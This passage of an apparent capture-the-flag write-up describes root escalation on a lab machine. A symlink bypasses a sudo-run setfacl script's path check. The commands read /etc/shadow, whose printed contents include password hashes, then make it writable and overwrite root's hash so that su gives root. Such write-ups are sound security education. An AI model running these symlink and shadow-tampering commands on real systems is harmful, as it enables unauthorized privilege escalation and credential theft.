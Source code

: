 The script was using [setfacl](https://www.man7.org/linux/man-pages/man1/setfacl.1.html) to add permissions to files. It validated that the file had to be in the user's home folder. And that the path did not contain any `..` to avoid something like `/home/mtz/../../etc/shadow`.

I went around the limitation by creating a symlink to the file I wanted to modify in the home folder. I used that to add read permissions on the shadow file, which gave my access to the root password hash.

```bash
mtz@permx:~$ ln -s /etc/shadow . ; sudo /opt/acl.sh mtz r /home/mtz/shadow ; cat /home/mtz/shadow
root:$y$j9T$VEMcaSLaOOvSE3mYgRXRv/$tNXYdTRyCAkwoSHhlyIoCS91clvPEp/hh0r4NTBlmS7:19742:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

I could have try to crack that hash. But it was simpler to change the root password hash to a hash I knew. I already had mtz password, so I added write permission to the shadow file and copied mtz hash to root.

```bash
mtz@permx:~$ rm shadow
mtz@permx:~$ ln -s /etc/shadow . ; sudo /opt/acl.sh mtz rw /home/mtz/shadow ; vim /home/mtz/shadow
ln: failed to create symbolic link './shadow': File exists
```

Then I could use `su` to connect as root, using the password I found for mtz.

```bash
mtz@permx:~$ su
Password:

root@permx:/home/mtz# cat /root/root.txt
REDACTED
```
